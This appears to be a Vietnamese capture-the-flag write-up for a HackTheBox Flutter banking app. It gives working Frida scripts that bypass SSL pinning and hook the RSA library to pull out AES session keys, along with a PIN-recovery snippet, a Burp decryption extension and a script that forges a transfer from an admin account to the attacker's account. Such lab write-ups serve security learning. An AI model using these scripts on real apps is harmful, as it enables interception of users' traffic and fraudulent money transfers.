


# HTB

- Đăng ký account vứt ra lỗi



# Xử lý cert

- Bypass ssl pining tham khảo tại
    - [Link1](https://blog.nviso.eu/2019/08/13/intercepting-traffic-from-android-flutter-applications/)
    - [Link2](https://blogs.night-wolf.io/bypass-ssl-pinning-in-flutter-android-app-voi-ghidra)
    - Cơ bản cách nhận diện để bypass tức dựa vào macro `__FILE__` , giả sử có đoạn code
    
    ```jsx
    #define HELLO "Hello World"
    
    printf(HELLO);
    ```
    
    - Trước khi compiler compile, **preprocessor** sẽ thay thế thành `printf("Hello World");`
    rồi mới compile
    - Cpp có các macro đặc biệt
        - __FILE__
        - __LINE__
        - __FUNCTION__
    - Khi `printf("%s\n", __**FILE__**);` thì ví dụ tên file đang chứa đoạn code đó tên là `test1.cpp`  thì lúc này compiler sẽ tự động thay thành `printf("%s\n", "test1.cpp");`
    - script bypass ssl pining
    
    ```jsx
    function hook_ssl_verify_result(address) {
        Interceptor.attach(address, {
            onEnter: function(args) {
                console.log("[+] Disabling SSL validation");
            },
            onLeave: function(retval) {
                console.log("[+] Retval before: " + retval);
                retval.replace(0x1);
                console.log("[+] Retval after: 0x1");
            }
        });
    }
    
    function disablePinning() {
        var module = Process.findModuleByName("libflutter.so");
    
        if (module === null) {
            console.log("[-] libflutter.so not found");
            return;
        }
    
        console.log("[+] libflutter.so found");
        console.log("[+] Base: " + module.base);
        console.log("[+] Size: " + module.size);
    
        var offset = 0x7A914B;
        var target = module.base.add(offset);
    
        console.log("[+] Offset: 0x" + offset.toString(16));
        console.log("[+] Target: " + target);
    
        try {
            console.log("[+] Hexdump at target:");
            console.log(hexdump(target, {
                length: 32,
                ansi: true
            }));
        } catch (e) {
            console.log("[-] Hexdump failed: " + e);
        }
    
        hook_ssl_verify_result(target);
    }
    
    setTimeout(disablePinning, 1000);
    [+] Base: 0x75dc7565f000
    [+] Size: 12144640
    [+] Offset: 0x7a914b
    [+] Target: 0x75dc75e0814b
    [+] Hexdump at target:
                   0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
    75dc75e0814b  55 41 57 41 56 41 55 41 54 53 48 83 ec 38 c6 02  UAWAVAUATSH..8..
    75dc75e0815b  50 48 8b af a0 00 00 00 48 85 ed 74 71 48 83 7d  PH......H..tqH.}
    [+] Disabling SSL validation
    [+] Retval before: 0x0
    [+] Retval after: 0x1
    [+] Disabling SSL validation
    [+] Retval before: 0x0
    [+] Retval after: 0x1
    [+] Disabling SSL validation
    [+] Retval before: 0x0
    [+] Retval after: 0x1
    [+] Disabling SSL validation
    [+] Retval before: 0x0
    [+] Retval after: 0x1
    ```
    
- Sau khi bypass được, tiến hành reg account và đăng nhập.

# Research lý thuyết

- Khi đăng nhập sẽ app sẽ yêu cầu điền OTP, nhưng vấn đề ở đây là mail giả, vậy thì OTP sẽ được gửi về đâu?


- Tìm kiếm các strings liên quan đến nhập OTP như `OTP, Kinda of OTP,...` với jadx, mục tiêu là tìm xem hàm check OTP thử xem nó đang compare với cái gì, set tĩnh hay động,… Nhưng không có kết quả trả về.
- Phân tích tĩnh với Jadx thì khá khó vì app đã hoàn toàn obfus, check xuống phần lib thì thấy được rằng app này đang được viết bằng flutter


- Vì lần đầu tiên động tới một con app khá khó như này nên sẽ đi qua phần định nghĩa một xíu
    - **Flutter** là một framework UI mã nguồn mở do Google phát triển, dùng để xây dựng ứng dụng đa nền tảng (cross-platform) từ một codebase duy nhất
    - Flutter không dùng các widget UI gốc của hệ điều hành mà
        - Tự render toàn bộ giao diện bằng engine đồ họa của nó
        - Mọi thứ trên màn hình đều là widget Flutter
        - Biên dịch code [Dart](https://dart.dev/) thành mã máy (native code) khi build release
    - App flutter sẽ không có nhiều java/kotlin như bình thường, nên việc dùng jadx để đọc hầu như không mang nhiều ý nghĩa.
    - Đối với app flutter, nên tập trung vào các lib
        - `libflutter.so` : engine flutter
        - `libapp.so` : chứa logic chính, nơi đây chứa code dart đã AOT compile
        
        ⇒ Tức dart code → AOT compiler → [libapp.so](http://libapp.so) và khi decompile sẽ thường thành mã máy ARM64 rất ít/hiếm đối với x86_64 kể cả các tool hỗ trợ.
        
- Đối với app flutter lần này sẽ sử dụng [blutter](https://github.com/worawit/blutter) - mục tiêu là khôi phục càng nhiều thông tin Dart càng tốt từ file `libapp.so` . Tool hỗ trợ script lấy lại symbol cho IDA. Và tool này hoạt động chỉ với **ARM** và nên **chạy tool trên linux/ubuntu** dễ hơn.

# Xử lý OTP

- Sau khi chạy tool và có được file `out` , dùng `grep -Rni "PIN" .` để tìm strings liên quan tới OTP
    
    
    
- Từ kết quả có thể thấy được `_handlePinInput -> reverseXORBase64` , tiếp tục tìm trong `main.dart` và `helper.dart`
    
    
    
    
    
- Từ kết quả trên thấy được `user_pin` được lấy từ `/data/data/com.example.bank/shared_prefs` sau đó qua hàm `*reverseXORBase64`*
- Tại hàm `*reverseXORBase64`* công thức sẽ là `PIN = int.fromBytes(base64Decode(user_pin)[0..4]) XOR 0xDEAD` (có thể xem qua IDA với script đã phục hồi symbol)
- Lấy `user_pin` và decode

```python
s = "user_pin"
b = base64.b64decode(s)
v = int.from_bytes(b[:4], "big")
pin = v ^ 0xDEAD
```

# Xử lý bắt request

- Sau khi xong OTP, app đã bắt đầu giao tiếp với server nhưng dù setup burp proxy theo bình thường nhưng không bắt được.
- Sau một hồi hỏi các anh mentor thì được các anh hướng dẫn phải setup kiểu invisible


- Biding
    - Port: port của chall trên HTB
    - Specific address: IP của VPN
- Request handing
    - host: IP của chall trên HTB
    - port: port của chall trên HTB
    - tick TLS và support invisible
- Certificate
    
    
    
- TLS
    
    
    
- HTTP
    
    
    

# Xử lý luồng chương trình

- It’s prompt time :Vv
- Lần đầu tiên tiếp xúc xử lý flutter ngồi đọc hết đống code đó hơi khó, nên để hết vào AI và có được luồng chương trình như sau
- Tại `_sendRequest()` trong `api_service`
    - generateAESParams()
    - encryptAES() → tại `rsa.dart`
    - encryptAESParamsWithRSA() → tại `rsa.dart`
    - http.post()
- Tại `rsa.dart`
    - EncryptionHelper::generateAESParams
    - EncryptionHelper::encryptAES
    - EncryptionHelper::encryptAESParamsWithRSA
    - RSA::encryptOAEP

```python
jsonEncode(body)
SHA256(json) -> SIGNATURE
AES-CBC encrypt(json)
RSA-OAEP encrypt AES key / IV / salt
POST ciphertext
```

# Phân tích chương trình

- Sau khi có được cái nhìn tổng quát toàn bộ chương trình, tập trung vào một số điểm như
    - Encrypt param như nào
    - Encrypt body như nào
    - Post sẽ bao gồm những trường như nào

## Param


- Từ đây có thể thấy được `key, iv, salt` được encode base64 sau đó encrypt bởi hàm `encryptOAEP` và hàm này nằm tại `fast_rsa.dart`
- Sau khi lướt qua một vòng `fast_rsa.dart` thấy được dart này nằm tại thư viện `librsa_bridge`


## Body


- Như đã nói ở tổng quát, body cũng được encode bằng `encryptAES` và field `signature` được lấy từ SHA256 của body
- Key, iv được lấy trước khi chúng bị encrypt

## Post


- Thấy được host post đến `infinity-bank.htb`
- Các trường sẽ được bắt bằng burpsuite nên sẽ không cần phân tích kĩ phần này

# Cách khai thác

- Vì đây là emulator và chạy trên x86_64 không hỗ trợ arm. Nên sẽ không hook vào được thẳng các hàm encrypt. Bởi vì các hàm này nằm ở `libapp` mà offset khi decompile bằng tool tương ứng với arm nên sẽ không phù hợp với x86_64.
- Thay vì hook encrypt tại libapp để lấy plaintext, key, iv. Thì chuyển sang hướng thủ công hook vào librsa_bridge tại encryptOAEP để lấy key, iv sau đó viết script bằng tay để giải mã. Bởi vì librsa_bridge không bị mất symbol.
- Full script frida

```jsx
function hook_ssl_verify_result(address) {
    Interceptor.attach(address, {
        onLeave: function (retval) {
            retval.replace(0x1);
        }
    });
}

function disablePinning() {
    var module = Process.findModuleByName("libflutter.so");
    if (!module) {
        console.log("[-] libflutter.so not found");
        return;
    }

    var target = module.base.add(0x7A914B);
    console.log("[+] SSL target = " + target);
    hook_ssl_verify_result(target);
}

function hookNativeNet() {
    try {
        var connectPtr = Module.getGlobalExportByName("connect");

        Interceptor.attach(connectPtr, {
            onEnter: function (args) {
                var sockaddr = args[1];
                var family = sockaddr.readU16();

                if (family === 2) {
                    var port = sockaddr.add(2).readU16();
                    port = ((port & 0xff) << 8) | (port >> 8);

                    var ipBytes = new Uint8Array(sockaddr.add(4).readByteArray(4));
                    var ip = ipBytes[0] + "." + ipBytes[1] + "." + ipBytes[2] + "." + ipBytes[3];

                    console.log("[connect] " + ip + ":" + port);
                }
            }
        });

        console.log("[+] connect hook installed");
    } catch (e) {
        console.log("[-] connect hook failed: " + e);
    }
}

function extractAsciiAll(p, len) {
    var out = [];

    try {
        var buf = p.readByteArray(len);
        var b = new Uint8Array(buf);
        var cur = "";

        for (var i = 0; i < b.length; i++) {
            var c = b[i];

            if (c >= 32 && c <= 126) {
                cur += String.fromCharCode(c);
            } else {
                if (cur.length >= 8) out.push(cur);
                cur = "";
            }
        }

        if (cur.length >= 8) out.push(cur);
    } catch (e) {}

    return out;
}

function getBase64CandidatesFromArg1(p) {
    var ss = extractAsciiAll(p, 0x800);
    var out = [];

    ss.forEach(function (s) {
        if (s.indexOf("BEGIN PUBLIC KEY") !== -1) return;
        if (s.indexOf("END PUBLIC KEY") !== -1) return;
        if (s.indexOf("MIIB") !== -1) return;

        if (/^[A-Za-z0-9+/=]{16,}$/.test(s)) {
            out.push(s);
        }
    });

    return out;
}

function pickRealCandidate(cands) {
    // cand0-cand4 là public key body
    // cand5 là plaintext thật cần RSA encrypt
    if (cands.length >= 5) return cands[5];
    return null;
}

var aesTmp = [];
var aesId = 0;
var rsaCallIndex = 0;

function pushAESParam(v) {
    if (!v) return;

    aesTmp.push(v);

    if (aesTmp.length === 3) {
        aesId++;

        var obj = {
            id: aesId,
            key: aesTmp[0],
            iv: aesTmp[1],
            salt: aesTmp[2],
            ts: Date.now()
        };

        console.log("[AESJSON]" + JSON.stringify(obj));

        aesTmp = [];
    }
}

function hookRSABridgeCall() {
    var mod = Process.findModuleByName("librsa_bridge.so");
    if (!mod) {
        console.log("[-] librsa_bridge.so not loaded yet");
        return false;
    }

    var target = null;
    var exps = mod.enumerateExports();

    exps.forEach(function (e) {
        if (e.name === "RSABridgeCall") {
            target = e.address;
        }
    });

    if (!target) {
        console.log("[-] RSABridgeCall not found");
        return true;
    }

    console.log("[+] Hook RSABridgeCall @ " + target);

    Interceptor.attach(target, {
        onEnter: function (args) {
            var s0 = extractAsciiAll(args[0], 0x100).join(" ");
            if (s0.indexOf("encryptOAEP") === -1) return;

            rsaCallIndex++;

            var cands = getBase64CandidatesFromArg1(args[1]);
            var picked = pickRealCandidate(cands);

            console.log("\n[RSA encryptOAEP #" + rsaCallIndex + "]");
            cands.forEach(function (s, i) {
                console.log("cand" + i + " = " + s);
            });

            console.log("[PICKED] " + picked);

            pushAESParam(picked);
        },

        onLeave: function (retval) {}
    });

    return true;
}

function waitAndHookRSA() {
    if (!hookRSABridgeCall()) {
        setTimeout(waitAndHookRSA, 500);
    }
}

setTimeout(function () {
    disablePinning();
    hookNativeNet();
    waitAndHookRSA();
}, 1000);
```

- Sau khi có được key, lưu vào log và để cho burp tự động decrypt

```python
# -*- coding: utf-8 -*-

from burp import IBurpExtender, IMessageEditorTabFactory, IMessageEditorTab
import json, re, base64
from javax.crypto import Cipher
from javax.crypto.spec import SecretKeySpec, IvParameterSpec

LOG_PATH = r"path_to_aes.log"

class BurpExtender(IBurpExtender, IMessageEditorTabFactory):
    def registerExtenderCallbacks(self, callbacks):
        self.callbacks = callbacks
        self.helpers = callbacks.getHelpers()
        self.offset = 0
        self.keys = []

        callbacks.setExtensionName("AES Decrypt Tab")
        callbacks.registerMessageEditorTabFactory(self)
        print("[+] AES Decrypt Tab loaded")

    def createNewInstance(self, controller, editable):
        return AESDecryptTab(self, controller)

    def read_keys(self):
        try:
            f = open(LOG_PATH, "r")
            data = f.read()
            f.close()

            arr = []
            for line in data.splitlines():
                m = re.search(r"\[AESJSON\](\{.*\})", line)
                if m:
                    obj = json.loads(m.group(1))
                    arr.append(obj)

            self.keys = arr
        except Exception as e:
            pass

class AESDecryptTab(IMessageEditorTab):
    def __init__(self, extender, controller):
        self.extender = extender
        self.controller = controller
        self.helpers = extender.helpers
        self.txt = extender.callbacks.createTextEditor()
        self.txt.setEditable(False)
        self.currentMessage = None

    def getTabCaption(self):
        return "AES Decrypt"

    def getUiComponent(self):
        return self.txt.getComponent()

    def isEnabled(self, content, isRequest):
        return content is not None

    def setMessage(self, content, isRequest):
        self.currentMessage = content

        if content is None:
            self.txt.setText(None)
            return

        self.extender.read_keys()

        try:
            if isRequest:
                info = self.helpers.analyzeRequest(content)
            else:
                info = self.helpers.analyzeResponse(content)

            body_offset = info.getBodyOffset()
            body = self.helpers.bytesToString(content[body_offset:])
            body = body.replace("\r", "").replace("\n", "").strip()

            if not body:
                self.txt.setText("Empty body")
                return

            # thử từ key mới nhất về cũ nhất
            for aes in reversed(self.extender.keys):
                try:
                    plain = self.decrypt(aes["key"], aes["iv"], body)

                    out = ""
                    out += "AES ID: %s\n" % aes.get("id")
                    out += "KEY: %s\n" % aes.get("key")
                    out += "IV : %s\n" % aes.get("iv")
                    out += "SALT: %s\n" % aes.get("salt")
                    out += "\n========== PLAINTEXT ==========\n"
                    out += plain

                    self.txt.setText(out)
                    return
                except:
                    pass

            self.txt.setText("No matching AES key found. aes.log")

        except Exception as e:
            self.txt.setText("Error: %s" % e)

    def decrypt(self, key_b64, iv_b64, cipher_b64):
        key = base64.b64decode(key_b64)
        iv = base64.b64decode(iv_b64)
        ct = base64.b64decode(cipher_b64)

        cipher = Cipher.getInstance("AES/CBC/PKCS5Padding")
        cipher.init(
            Cipher.DECRYPT_MODE,
            SecretKeySpec(key, "AES"),
            IvParameterSpec(iv)
        )

        pt = cipher.doFinal(ct)
        return ''.join(chr((b + 256) % 256) for b in pt)

    def getMessage(self):
        return self.currentMessage

    def isModified(self):
        return False

    def getSelectedData(self):
        return self.txt.getSelectedText()
```

- Sử dụng `transfer` để chuyển tiền lại cho chính mình sẽ có được flag

```python
import json
import hashlib
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

key_b64 = "session_key"
iv_b64 = "seesion_iv"

obj = {
    "amount": 13.0,
    "auth": {
        "token":"self_token"
    },
    "from_account": 93478541, #admin
    "remark": "test1",
    "to_account": 276194769 #self
}

plaintext = json.dumps(obj, separators=(",", ":"))

signature = hashlib.sha256(plaintext.encode()).hexdigest()

cipher = AES.new(
    base64.b64decode(key_b64),
    AES.MODE_CBC,
    base64.b64decode(iv_b64)
)

body = base64.b64encode(
    cipher.encrypt(pad(plaintext.encode(), 16))
).decode()

print("plaintext =", plaintext)
print("signature =", signature)
print("body =", body)
print("Content-Length =", len(body))

```

# Video

- Link [Youtube](https://youtu.be/3IXCThrfmMQ)

